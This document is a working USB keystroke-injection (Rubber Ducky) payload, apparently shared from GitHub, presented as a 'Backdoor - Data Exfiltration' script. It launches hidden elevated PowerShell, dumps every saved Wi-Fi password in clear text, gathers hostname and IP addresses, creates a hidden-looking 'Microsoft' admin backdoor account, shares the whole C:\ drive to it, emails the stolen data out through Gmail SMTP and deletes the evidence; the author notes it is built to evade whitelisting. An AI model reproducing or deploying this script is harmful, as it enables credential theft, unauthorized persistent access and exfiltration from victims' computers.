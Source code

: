 This simple script will grab all of the wifi passwords, external IP address, LAN address, and hostname of the target device and e-mail it to an address of your choice. I recommend you use a Gmail address for this. I have not had luck with Yahoo, Hotmail, etc...

It then creates a user called Microsoft, and shares C:\ out to the new user. My goal here was to use one liners to prevent this from being picked up by whitelisting applications (no .bat, .exe, etc...)
 
```
REM # Backdoor - Data Exfiltration
REM # Credit goes to Crumb93 and BrainEater from the Hak5 forums for the Wifi Password one liner
DELAY 1000
WINDOWS d
DELAY 450
WINDOWS r
DELAY 450
STRING powershell Start-Process powershell -Verb runAs -windowstyle hidden
DELAY 30
ENTER
DELAY 500
ALT y
DELAY 1000
REM *****************
REM # We're going to grab all wifi passwords
REM *****************
STRING (netsh wlan show profiles) | Select-String "\:(.+)$" | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name="$name" key=clear)}  | Select-String "Key Content\W+\:(.+)$" | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }} | Format-Table -AutoSize > C:\Information.txt
ENTER
DELAY 500
REM *****************
REM # Now we'll grab Network Information (Local IP, Public IP, Hostname)
REM *****************
STRING $command = {hostname; Get-NetIpaddress | Where PrefixOrigin -EQ DHCP; Invoke-RestMethod http://ipinfo.io/json | Select -exp ip}
ENTER
DELAY 60
STRING $command.InvokeReturnAsIs() | Out-File C:\Information.txt -Append
ENTER
DELAY 400
REM *****************
REM # We're going to add a user
REM *****************
STRING NET USER Microsoft "l33t" /ADD
ENTER
DELAY 100
REM *****************
REM # Now we're going to share the C:\ drive out
REM *****************
STRING New-SmbShare -Name "Microsoft" -Path "C:\" -FullAccess "Microsoft"
ENTER
DELAY 100
REM *****************
REM # Let's e-mail ourselves and clean up
REM *****************
DELAY 1000
STRING $SMTPServer = 'smtp.gmail.com'
ENTER
STRING $SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
ENTER
STRING $SMTPInfo.EnableSSL = $true
ENTER
STRING $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('EMAILHERE', 'PASSWORDHERE!')
ENTER
STRING $ReportEmail = New-Object System.Net.Mail.MailMessage
ENTER
STRING $ReportEmail.From = 'EMAILHERE'
ENTER
STRING $ReportEmail.To.Add('EMAILHERE')
ENTER
STRING $ReportEmail.Subject = 'Hello from the duck'
ENTER
STRING $ReportEmail.Body = (Get-Content C:\Information.txt | out-string)
ENTER
STRING $SMTPInfo.Send($ReportEmail)
ENTER
DELAY 100
REM *****************
REM # Cleanup
REM *****************
STRING del C:\Information.txt
ENTER
STRING exit
ENTER
```
https://github.com/Crumb93